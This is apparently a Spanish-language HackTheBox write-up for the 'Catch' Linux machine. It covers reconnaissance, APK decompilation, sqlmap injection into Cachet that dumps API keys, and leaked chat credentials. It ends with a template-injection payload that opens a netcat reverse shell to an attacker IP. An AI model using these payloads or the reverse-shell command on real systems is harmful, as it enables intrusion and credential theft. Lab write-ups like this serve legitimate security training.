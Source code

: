 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Catch              |
| Os                     | Linux              |
| Difficulty             | Medium             |
| Points                 | 30                 |
| IP                     | 10.10.11.150       |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Catch/scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.11.150
```

![Nmap 1](/assets/images/Catch/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

![Nmap 2](/assets/images/Catch/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos.

![Nmap 3](/assets/images/Catch/nmap3.png)

Despues veremos mas sobre los servicios que corren en el puerto 80, 3000, 5000 y 8000 con whatweb.

![whatweb](/assets/images/Catch/whatweb.png)


![Landing page](/assets/images/Catch/landing_page.png)


Despues de que seguimos navegando por el servicio web, nos encontramos con un .apk, el cual lo descompilaremos con <a href="https://github.com/pxb1988/dex2jar.git">d2j-dex2jar.sh</a>. Una vez clonado y correr ./gradlew distZip , navegaremos a dex2jar/dex-tools/build/distributions/dex-tools-2.2-SNAPSHOT. El comando para ejecutar la aplicacion es:

```s
sh d2j-dex2jar.sh -f /home/rebick/Documents/HtB/Catch/name.apk
```

Buscando en el codigo fuente, encontramos un link dirigido a `https://status.catch.htb`, asi que agregaremos este dominio a nuestro `/etc/hosts`

![Function that call subdomain.](/assets/images/Catch/pointing_subdomain.png)

Ahora analizaremos el dominio con <a href="https://github.com/MobSF/Mobile-Security-Framework-MobSF">MobSF.</a>Con esta herramienta encontraremos tokens de mucha importancia y podremos explotarlos despues. Por ahora, solo nos enfocaremos en `https://status.catch.htb`. Primero hay que iniciar el servicio y visitarlo en el navegador.

```s
#Para iniciar la herramienta
sh ./run.sh
```

Una vez ejecutada la herramienta, abrimos el navegador y ponemos `http://localhost:8000/`, el dashboard nos pedira soltar el .apk ahi mismo e iniciara el analisis. Despues de que concluya, nos vamos a la parte de Analysis

![Secrets](/assets/images/Catch/secrets.png)

En este dominio se encontro que es usado el frame Cachet, la otra evidencia indica que hay vulnerabilidades de SQLI, y vulnerabilidades de ejecusion de comandos.
Usaremos sqlmap para detectar estas vulnerabilidades.

```s
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+"
```

![SQL Payload](/assets/images/Catch/SQLpayload.png)

Vamos por la webshell

```s
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms
```

Primero Obtenemos el json de Rooms.

```json
[{"id":"61b86b28d984e2451036eb17",
"slug":"status",
"name":"Status",
"description":"Cachet Updates and Maintenance",
"lastActive":"2021-12-14T10:34:20.749Z",
"created":"2021-12-14T10:00:08.384Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]},
{"id":"61b8708efe190b466d476bfb",
"slug":"android_dev",
"name":"Android Development",
"description":"Android App Updates, Issues & More",
"lastActive":"2021-12-14T10:24:21.145Z",
"created":"2021-12-14T10:23:10.474Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]},
{"id":"61b86b3fd984e2451036eb18",
"slug":"employees",
"name":"Employees",
"description":"New Joinees, Org updates",
"lastActive":"2021-12-14T10:18:04.710Z",
"created":"2021-12-14T10:00:31.043Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]}]
```

Y ahora descargamos

```s
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms/61b86b28d984e2451036eb17/messages
```

En este response, obtuvimos la contrasena de john.

```json
[{"id":"61b8732cfe190b466d476c02",
"text":"ah sure!",
"posted":"2021-12-14T10:34:20.749Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b8731ffe190b466d476c01",
"text":"You should actually include this task to your list as well as a part of quarterly audit","posted":"2021-12-14T10:34:07.449Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b872b9fe190b466d476c00",
"text":"Also make sure we've our systems, applications and databases up-to-date.","posted":"2021-12-14T10:32:25.514Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87282fe190b466d476bff",
"text":"Excellent! ",
"posted":"2021-12-14T10:31:30.403Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87277fe190b466d476bfe",
"text":"Why not. We've this in our todo list for next quarter",
"posted":"2021-12-14T10:31:19.094Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87241fe190b466d476bfd",
"text":"@john is it possible to add SSL to our status domain to make sure everything is secure ? ",
"posted":"2021-12-14T10:30:25.108Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b8702dfe190b466d476bfa",
"text":"Here are the credentials `john :  E}V!mywu_69T4C}W`",
"posted":"2021-12-14T10:21:33.859Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87010fe190b466d476bf9",
"text":"Sure one sec.",
"posted":"2021-12-14T10:21:04.635Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b86fb1fe190b466d476bf8",
"text":"Can you create an account for me ? ",
"posted":"2021-12-14T10:19:29.677Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b86f4dfe190b466d476bf6",
"text":"Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me. ",
"posted":"2021-12-14T10:17:49.761Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"}] 
```

Encontramos la cuenta y contrasena `john : E}V!mywu_69T4C}W`. El apiKey de john fue encontrada por medio de SQLInjection.
Lo siguiente por hacer es 

```s
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C api_key,username --dump
```

Ahora podemos usar burpsuite para insertar el response de la siguiente forma:


![Burpsuite](/assets/images/Catch/burpsuite_john_response.png)

![SSLI](/assets/images/Catch/ssli.png)

En el SSLI pondremos 

```s
{{["rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.29 8081 >/tmp/f"] | filter("system") | join(",")}} 
```
para establecer una reverse shell y ponernos en escucha por el puerto 443